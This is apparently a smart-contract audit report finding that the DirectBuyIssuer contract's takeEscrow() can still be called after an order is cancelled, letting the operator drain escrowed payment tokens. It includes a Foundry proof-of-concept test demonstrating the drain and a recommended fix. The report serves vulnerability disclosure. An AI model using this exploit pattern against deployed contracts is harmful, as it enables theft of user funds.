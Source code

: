 tnquanghuy0512

high

# Operator can drained DirectBuyIssuer contract using takeEscrow()

## Summary
Operator can drained contract DirectBuyIssuer using takeEscrow() 
## Vulnerability Detail
In DirectBuyIsser contract, `getOrderEscrow(orderId) == 0` when the request is fulfill. But it will be remained when we cancel the request, causing `getOrderEscrow(orderId) > 0`. Because of that, operator can still takeEscrow() that orderId even when the requested is cancelled, taking out maximum is `getOrderEscrow(orderId)` paymentToken

POC:
```solidity
    function testCancelOrder(uint256 orderAmount, uint256 fillAmount, string calldata reason) public {
        vm.assume(orderAmount<100 ether);
        vm.assume(fillAmount<100 ether);
        
        //--UNTOUCHED PART FROM testCancelOrder()-------------
        vm.assume(orderAmount > 0);

        OrderProcessor.OrderRequest memory order = dummyOrder;
        order.quantityIn = orderAmount;
        (uint256 flatFee, uint256 percentageFee) = issuer.getFeesForOrder(order.assetToken, order.quantityIn);
        uint256 fees = flatFee + percentageFee;
        vm.assume(fees < orderAmount);
        vm.assume(fillAmount < orderAmount - fees);

        paymentToken.mint(user, orderAmount);
        vm.prank(user);
        paymentToken.increaseAllowance(address(issuer), orderAmount);

        vm.prank(user);
        issuer.requestOrder(order, salt);

        if (fillAmount > 0) {
            vm.prank(operator);
            issuer.takeEscrow(order, salt, fillAmount);

            vm.prank(operator);
            issuer.fillOrder(order, salt, fillAmount, 100);
        }

        bytes32 orderId = issuer.getOrderIdFromOrderRequest(order, salt);
        vm.expectEmit(true, true, true, true);
        emit OrderCancelled(orderId, user, reason);
        vm.prank(operator);
        issuer.cancelOrder(order, salt, reason);
        
        //--------------------------------------------------------

        assertGt(issuer.getOrderEscrow(orderId),0);
        uint256 drainedMax = issuer.getOrderEscrow(orderId);

        //pretending there're unfulfill requests
        paymentToken.mint(address(issuer), drainedMax);

        vm.prank(operator);
        issuer.takeEscrow(order,salt,drainedMax);

        assertEq(paymentToken.balanceOf(address(issuer)),0);
        assertEq(issuer.getOrderEscrow(orderId),0);
    }
```
## Impact
Drained the contract
## Code Snippet
https://github.com/sherlock-audit/2023-06-dinari/blob/4851cb7ebc86a7bc26b8d0d399a7dd7f9520f393/sbt-contracts/src/issuer/DirectBuyIssuer.sol#L130C1-L141C6

## Tool used

Manual Review

## Recommendation
Reset `getOrderEscrow(orderId)` when cancel order 